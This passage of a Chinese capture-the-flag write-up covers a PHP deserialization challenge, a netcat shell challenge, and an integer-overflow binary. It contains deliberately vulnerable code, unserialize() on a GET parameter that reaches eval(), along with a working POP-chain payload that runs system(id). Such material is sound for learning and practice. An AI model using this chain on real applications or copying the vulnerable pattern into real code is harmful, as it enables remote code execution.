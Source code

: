 ```php
    {
        $this->end = $end;
    }

    function __get($Attribute)
    {
        eval($this->end);
    }
}

if(isset($_GET['serialize'])) {
    unserialize($_GET['serialize']);
} else {
    highlight_file(__FILE__);
}
```

从entrance的`__destruct`触发，到`evil`的`eval`语句结束，利用中间那个类做跳板

```php
$a = new entrance(new springboard());
$a->start->middle = new evil("system(id);");
echo serialize($a);
```

## Pwn

### Test_your_nc

nc是通过远端连接一个ip地址，并执行该端口的应用，本题连接直接可以获取shell

> nc 的作用
>
> （1）实现任意TCP/UDP端口的侦听，nc可以作为server以TCP或UDP方式侦听指定端口
> （2）端口的扫描，nc可以作为client发起TCP或UDP连接
> （3）机器之间传输文件
> （4）机器之间网络测速

![](https://i.loli.net/2021/09/23/i48zMpalEOuHUwf.png)

### Int overflow

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v4; // [rsp+14h] [rbp-Ch] BYREF
  puts("Do you no integer overflow?");
  puts("Input an int ( <0 )");
  __isoc99_scanf("%u", &v4);
  // 检查符号位是否为1
  if ( (v4 & 0x80000000) == 0 )  
  {
    puts("<0 ?");
  }
  else
  {
    puts("But I want <0 now!");
    printf("%d\n", v4);
    // 再次检查v4是否大于零
    if ( v4 )
    {
      puts("You know int overflow!");
      system("/bin/sh");
    }
```